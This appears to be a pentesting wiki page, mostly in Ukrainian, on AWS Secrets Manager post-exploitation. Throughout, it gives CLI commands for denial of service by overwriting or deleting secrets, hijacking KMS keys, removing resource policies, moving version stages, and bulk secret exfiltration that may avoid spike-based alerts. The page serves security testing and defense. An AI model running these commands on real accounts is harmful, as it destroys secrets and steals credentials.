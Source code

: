 # AWS - Secrets Manager Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Для додаткової інформації див.:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

The **secrets themselves are sensitive information**, [перегляньте сторінку privesc](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) щоб дізнатися, як їх читати.

### DoS Change Secret Value

Змінивши значення secret, ви можете **DoS всі системи, які залежать від цього значення.**

> [!WARNING]
> Зауважте, що попередні значення також зберігаються, тому легко просто повернутися до попереднього значення.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Якщо у зловмисника є дозвіл secretsmanager:UpdateSecret, він може налаштувати secret так, щоб використовувався KMS key, що належить зловмиснику. Цей ключ спочатку налаштований таким чином, що будь-хто може отримати до нього доступ і використовувати його, тому оновлення secret з новим ключем можливе. Якби ключ був недоступний, secret не можна було б оновити.

Після зміни ключа для secret зловмисник модифікує конфігурацію свого ключа так, щоб доступ мав лише він. Таким чином у наступних версіях secret він буде зашифрований новим ключем, і оскільки доступу до нього не буде, можливість отримати secret буде втрачено.

Важливо зазначити, що ця недоступність виникне лише в пізніших версіях, після зміни вмісту secret, оскільки поточна версія усе ще зашифрована оригінальним KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Мінімальна кількість днів для видалення секрету — 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Можна відновити секрет, що дозволяє відновлювати секрети, які були заплановані на видалення, оскільки мінімальний період видалення секретів становить 7 днів, а максимальний — 30 днів. Разом із дозволом secretsmanager:GetSecretValue це дає змогу отримати їхній вміст.

Щоб відновити секрет, який перебуває у процесі видалення, ви можете використати таку команду:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Ця дія дозволяє видаляти політику ресурсу, яка контролює, хто може отримати доступ до секрету. Це може призвести до DoS, якщо політика ресурсу була налаштована так, щоб дозволяти доступ конкретному набору користувачів.

Щоб видалити політику ресурсу:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Стан секрету використовується для керування версіями секрету. AWSCURRENT позначає активну версію, яку використовують додатки; AWSPREVIOUS зберігає попередню версію, щоб у разі потреби можна було відкотитися; а AWSPENDING використовується в процесі ротації для підготовки та перевірки нової версії перед тим, як зробити її поточною.

Додатки завжди читають версію з AWSCURRENT. Якщо хтось перемістить цей маркер на неправильну версію, додатки використовуватимуть недійсні облікові дані і можуть не працювати.

AWSPREVIOUS не використовується автоматично. Однак якщо AWSCURRENT буде видалено або неправильно переназначено, може скластися враження, що все досі працює з попередньою версією.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../../banners/hacktricks-training.md}}

### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Зловживайте API Secrets Manager BatchGetSecretValue, щоб отримати до 20 секретів в одному запиті. Це може значно зменшити обсяг викликів API порівняно з ітерацією GetSecretValue для кожного секрету. Якщо використовуються фільтри (tags/name), потрібен також дозвіл ListSecrets. CloudTrail все ще фіксує по одному GetSecretValue подію для кожного секрету, отриманого в батчі.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Зауважте, що дозвіл `secretsmanager:BatchGetSecretValue` сам по собі недостатній для отримання секретів — вам також потрібен `secretsmanager:GetSecretValue` для кожного секрету, який ви хочете отримати.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate за фільтрами (ключ/значення тегу або префікс імені)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Обробка часткових збоїв
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Вплив
- Швидкий “smash-and-grab” багатьох секретів з меншою кількістю API-запитів, потенційно обходячи оповіщення, налаштовані на сплески GetSecretValue.
- Журнали CloudTrail все ще містять по одній GetSecretValue-події на кожен секрет, отриманий у пакеті.
